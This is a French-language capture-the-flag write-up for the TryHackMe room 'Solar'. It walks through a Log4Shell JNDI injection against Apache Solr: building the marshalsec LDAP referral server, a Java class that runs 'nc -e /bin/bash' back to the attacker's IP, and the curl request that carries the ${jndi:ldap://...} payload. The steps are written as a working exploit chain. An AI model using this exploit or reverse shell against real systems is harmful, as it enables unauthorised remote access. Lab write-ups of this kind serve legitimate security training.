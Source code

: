 +++
title = "Solar"
authors = ["david-pellissier"]
date = 2021-12-15

[taxonomies]
categories = ["misc"]
+++

## Writeup de la room "Solar"

Lien: https://tryhackme.com/room/solar

Docker: **`sudo docker run -it --name "Kali" -p 1234:1234 -p 8000:8000 -p 1389:1389 kalilinux/kali /bin/bash `**



Installer toutes les dépendances: 

```bash
cd home
apt update
apt install -y netcat-traditional python3 curl wget git maven nano vim
wget https://github.com/adoptium/temurin8-binaries/releases/download/jdk8u312-b07/OpenJDK8U-jdk_x64_linux_hotspot_8u312b07.tar.gz
tar xzf OpenJDK8U-jdk_x64_linux_hotspot_8u312b07.tar.gz 
echo 'export PATH=$PWD/jdk8u312-b07/bin:$PATH' >> .bashrc
git clone https://github.com/mbechler/marshalsec
cd marshalsec
mvn clean package -DskipTests
```

Lancer le serveur LDAP

```bash
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.77.76:8000/#Exploit	
```

Créer le reverse shell

```bash
cd ~
mkdir exploit
cd exploit
nano Exploit.java # puis insérer le code ci-dessous
javac Exploit.java
```

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.9.77.76 1234");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Lancer le serveur python

```bash
python3 -m http.server
```

Ouvrir la connexion du reverse shell:

```
nc -lnvp 1234
```



Exécuter:

```bash
 curl 'http://10.10.91.84:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.77.76:1389/Exploit\}'
```

Résultat: on a un shell

À noter qu'il n'y a pas de "décoration" du shell au départ, mais qu'on peut quand même exécuter des commandes.

Pour rendre "user-friendly" le shell on peut lancer cette commande:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```



